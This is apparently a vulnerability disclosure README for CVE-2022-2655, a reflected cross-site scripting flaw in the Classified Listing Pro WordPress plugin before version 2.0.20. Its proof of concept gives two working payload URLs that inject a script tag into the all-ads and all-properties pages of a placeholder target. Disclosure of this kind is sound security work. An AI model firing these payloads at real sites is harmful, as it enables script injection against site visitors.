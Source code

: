 ## 😼 CVE-2022-2655

Classified Listing Pro < 2.0.20 - Reflected Cross-Site Scripting

## Description
After creating an ad using the Classified Listing Pro plugin, the ads menu, categories and subcategories become vulnerable to Reflected Cross Site Scripting (XSS)

<b>To reproduce the failure, it is necessary to create at least one category and one ad</b>

## Proof of Concept:
https://<TARGET>/all-ads/?"><script>alert("Hacking Force")</script>
  
https://<TARGET>/all-properties/?"><script>alert("Hacking Force")</script> 
  
  
